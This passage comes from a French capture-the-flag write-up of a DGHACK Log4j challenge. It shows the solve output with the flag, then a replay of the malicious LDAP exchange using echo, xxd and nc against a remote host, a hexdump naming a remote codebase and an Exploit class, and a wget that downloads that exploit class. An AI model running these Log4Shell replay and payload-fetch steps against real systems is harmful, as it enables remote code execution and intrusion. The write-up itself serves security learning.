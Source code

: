 

```
┌─[ribt@ribt-laptop-mint]─[~]
└──$ javac Solve.java

┌─[ribt@ribt-laptop-mint]─[~]
└──$ java Solve
###########################################
# - - - - -  WELCOME IN SHELL - - - - - - #
# - - ALL YOUR CUBES ARE BELONG TO US - - #
# -- $Hacked_by_unhappy.competitor.com -- #
# DGHACK{411_Y0Ur_CU835_4r3_8310N6_70_U5} #
###########################################

```

Et voilà pour ce challenge pas si facile que ça ! C'était une très bonne occasion d'apprendre le fonctionnement de la vulnérabilité Log4j en détail.



Après coup je remarque que le rejeu aurait fonctionné. La solution est plus propre car ne nécessite pas que notre instance du challenge soit root ni connectée à Internet.

```
root@malice:~# echo "304302010263210401610a01000a0103020100020100010100870b6f626a656374436c6173733000a01b30190417322e31362e3834302e312e3131333733302e332e342e32" | xxd -r -ps | nc 174.10.54.15 1389 | xxd
00000000: 3081 a302 0102 6481 9d04 0161 3081 9730  0.....d....a0..0
00000010: 1604 0d6a 6176 6143 6c61 7373 4e61 6d65  ...javaClassName
00000020: 3105 0403 666f 6f30 2c04 0c6a 6176 6143  1...foo0,..javaC
00000030: 6f64 6542 6173 6531 1c04 1a68 7474 703a  odeBase1...http:
00000040: 2f2f 3137 342e 3130 2e35 342e 3135 3a35  //174.10.54.15:5
00000050: 3036 3636 2f30 2404 0b6f 626a 6563 7443  0666/0$..objectC
00000060: 6c61 7373 3115 0413 6a61 7661 4e61 6d69  lass1...javaNami
00000070: 6e67 5265 6665 7265 6e63 6530 2904 0b6a  ngReference0)..j
00000080: 6176 6146 6163 746f 7279 311a 0418 4578  avaFactory1...Ex
00000090: 706c 6f69 7438 3436 3836 3536 3435 3634  ploit84686564564
000000a0: 3835 3735 3433 300c 0201 0265 070a 0100  8575430....e....
^C

root@malice:~# cd /tmp

root@malice:/tmp# wget http://174.10.54.15:50666/Exploit84686564564857543.class
```

